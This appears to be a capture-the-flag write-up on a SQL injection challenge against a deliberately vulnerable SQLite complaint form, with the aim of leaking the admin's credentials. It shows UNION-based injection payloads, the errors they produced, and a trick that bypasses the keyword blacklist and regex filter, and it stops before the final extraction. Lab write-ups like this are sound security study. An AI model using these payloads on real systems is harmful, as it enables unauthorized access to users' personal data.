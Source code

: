 # #2

{% hint style="info" %}
#### The admin of this website made a GDPR form, but he doesn't reply to any complains.

Show the **admin** how you can leak information about users by stealing his **username** and **password**.

### Goal

Recover the admin information in a single query, the output **must** look like this

text: `admin:<email>:<password>`
{% endhint %}

Here is the code that we have:

```sql
-- run
CREATE TABLE complain (text TEXT);
-- run
INSERT INTO complain(text) VALUES ('' AND 0); /* I don't really care about your complains */

-- return
SELECT 
  text
FROM complain
LIMIT 5;
```

After looking for the terms that i didn't quite understand i found this article:

{% embed url="https://portswigger.net/daily-swig/isnt-it-ironic-exploiting-gdpr-laws-to-gain-access-to-personal-data" %}

I have to input an email so i tried `admin@test.com` and had `0` as the output

SQL evaluates `'admin@test.com' AND 0`:

* In SQL, logical `AND` evaluates both sides. Here, any non-empty string like `'admin@test.com'` is treated as `TRUE`.
* `0` is treated as `FALSE`.
* `TRUE AND FALSE` evaluates to `FALSE`, and in SQLite, `FALSE` is represented as `0`.

As a result, the value `0` is inserted into the `text` column.

So i tried escaping the user input to retrieve some informations without thinking too much at first:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Key points that we can note:

* our "-" is blacklisted
* SELECT is not in the output

Those seem odd until i looked at the nodes that we're named "blacklist" and "Regex replace" (now it's not so odd anymore :joy:)

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Makes sense now, let's go deeper now that we know this

So i looked up different techniques to replace those inputs and tried the following payloads:

```sql
') UNION ALL (S||E||L||E||C||T email FROM users)# 
#and
') UNION ALL VALUES('admin@example.com')#
```

Did not work and i got pretty much the same error ->

```
Parse error near line 5: near "(": syntax error
  INSERT INTO complain(text) VALUES ('') UNION ALL (S||E||L||E||C||T email FROM 
                                     error here ---^
```

```
Parse error near line 5: near "''": syntax error
  VALUES ('') UNION ALL VALUES('admin@example.com')'' AND 0); /* I don't really
                                      error here ---^
```

So i took a step backwards and focused on only trying to escape properly all user inputs and got the hang of it with the following payload:

```
') ('
```

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and luckily with a mistype i got the following output that caught my eye:

```
') UNION SELECTs('
```

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so from there i told myself that it was the way to go to bypass the regex problem and got a valid input:

```
') UNION SELECTselect ('
```

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i went to the following cheat sheet to see some enumeration commands:

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md" %}
